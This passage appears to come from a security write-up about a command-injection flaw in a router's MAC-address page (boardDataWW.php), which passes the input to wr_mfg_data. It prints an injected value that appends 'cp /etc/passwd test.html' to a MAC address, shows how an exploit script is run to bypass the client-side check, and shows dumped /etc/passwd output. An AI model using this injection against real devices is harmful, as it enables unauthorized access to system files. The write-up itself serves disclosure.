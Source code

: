 This code file is responsible for showing this page to capture a MAC address for the device:

![Screen handled by boardDataWW.php](../.gitbook/assets/screen-shot-2021-07-09-at-2.26.16-pm.png)

When the user enters a MAC address and clicks the submit button, the code above checks that it has been sent a valid MAC address (12 characters, alphanumeric) and a region code, and then it passes that to a command line utility called `wr_mfg_data`. If the MAC address was `f8ffc201fae5` and region code was 1, the command that would be executed would be:

```bash
wr_mfg_data -m f8ffc201fae5 -c 1
```

You will notice that there is no validation of the input to this command by the code. It just checks that the first 12 characters of the MAC address are alphanumeric. This means we can add data to the end of a valid MAC address and it will accept it. So if we add a second command to the address, it will be executed as well. To do that, we use the command separator `;` as follows:

```bash
wr_mfg_data -m f8ffc201fae5;cp /etc/passwd test.html; -c 1
```

To achieve this we would put `f8ffc201fae5;cp /etc/passwd test.html;` into the text box for the MAC address. The second command copies the password file to an HTML file test.html that we can then access from the website. However, for this to work, we need to bypass a JavaScript validation check in the browser of the MAC address but that is trivial to do, which we will do below.

### 1.1. Exploit Code

Because the Javascript that runs inside the browser does correctly validate the user input to ensure that only a MAC address is entered, we can't just type this into the web application directly.
However, because that check is client-side, we can skip it by writing a small exploit script.

To run the exploit script on a vulnerable device, you would run something like:

```bash
./exploit.py [IP address of the router] /etc/passwd
```

Then the output would be something like:

```bash
root:x:0:0:root:/root:/bin/sh
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:100:sync:/bin:/bin/sync
mail:x:8:8:mail:/var/spool/mail:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
operator:x:37:37:Operator:/var:/bin/sh
haldaemon:x:68:68:hald:/:/bin/sh
dbus:x:81:81:dbus:/var/run/dbus:/bin/sh
nobody:x:99:99:nobody:/home:/bin/sh
sshd:x:103:99:Operator:/var:/bin/sh
admin:x:0:0:Default non-root user:/home/cli/menu:/usr/sbin/cli
```

